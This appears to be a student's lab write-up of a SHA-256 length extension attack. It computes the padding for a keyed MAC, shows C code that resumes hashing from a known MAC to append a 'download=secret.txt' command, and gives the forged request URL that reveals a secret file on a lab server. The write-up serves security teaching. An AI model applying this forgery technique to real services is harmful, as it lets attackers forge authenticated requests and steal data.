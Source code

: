 ## Task 3: The Length Extension Attack

In this task, the objective is to first generate a valid MAC for the request:

- `<key>:myname=<name>&uid=<uid>&lstcmd=1`

The following achieved that:

![validMAC](screenshots/validMac.png)

Next we need to construct the padding for the following message (my personal name in this case) to pass in the url:

`123456:myname=JoaoSilva&uid=1001&lstcmd=1`

Length of message: 41 bytes

Padding: 64 bytes - 41 bytes = 23 bytes including 8 bytes of length field

Length of message in term of bits = 41decimal * 8 = 328 bits =bits in hex 0x0148


SHA256 will be performed in the following padded message:
 
"123456:myname=JoaoSilva&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x48"
 


`Padding: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%48`


Also, having the MAC of the original message, we can now produce a new MAC for the whole request with the extra download command, using the *length_ext.c* file:

```c
	// MAC of the original message M (padded) 
	//c97596378ef0314fdc0a8e48402c16f894167e77e5d5d302661d2bcb3a221182


	c.h[0] = htole32(0xc9759637);
	c.h[1] = htole32(0x8ef0314f);
	c.h[2] = htole32(0xdc0a8e48);
	c.h[3] = htole32(0x402c16f8);
	c.h[4] = htole32(0x94167e77);
	c.h[5] = htole32(0xe5d5d302);
	c.h[6] = htole32(0x661d2bcb);
	c.h[7] = htole32(0x3a221182);
            
```

```c
	// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);

```

New MAC produced:

![newMsgMAC](screenshots/newMsgMac.png)


Based on the *<mac>* calculated above, we can now construct a new request that includes the *download* command without using the secret key:

`http://10.9.0.80/?myname=JoaoSilva&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%48&download=secret.txt&mac=278dae05f1fa3eb5b39674bc369e6df2e4971d1d1356a7d8a21407cb46d9122b`

Sending this request using the browser, we achieved the objective, revealing the content of the secret.txt:

![secretRevealed](screenshots/Result.png)